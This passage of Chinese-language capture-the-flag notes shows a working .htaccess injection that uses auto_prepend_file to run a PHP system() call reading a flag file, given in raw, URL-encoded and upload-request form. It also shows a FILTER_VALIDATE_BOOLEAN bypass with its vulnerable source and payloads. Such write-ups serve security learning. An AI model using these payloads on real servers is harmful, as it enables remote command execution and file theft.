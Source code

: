 ```
php_value auto_prepend_fi\
le .htaccess
#<?php system('cat /fla'.'g');?>\
```

进行编码

```
php_value%20auto_prepend_fi\%0ale%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\
```

上传 (过了一遍目录, 发现flag在根目录)

```
?content=php_value%20auto_prepend_fi\%0ale%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\&filename=.htaccess
```

## PHP特殊函数 FILTER_VALIDATE_BOOLEAN

> FILTER_VALIDATE_BOOLEAN 过滤器把值作为布尔选项来验证。
>
> - Name: "boolean"
> - ID-number: 258
>
> 可能的返回值：
>
> - 如果是 "1", "true", "on" 以及 "yes"，则返回 true。
> - 如果是 "0", "false", "off", "no" 以及 ""，则返回 false。
> - 否则返回 NULL

源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
include('flag.php');
$b=$_GET['b'];
if(filter_var ($b,FILTER_VALIDATE_BOOLEAN)){
    if($b=='true' || intval($b)>0){
        die('FLAG NOT HERE');
    }else{
        echo $flag;
    }
} 
```

payload

```
?b=on
?b=yes
```

## Hacker101
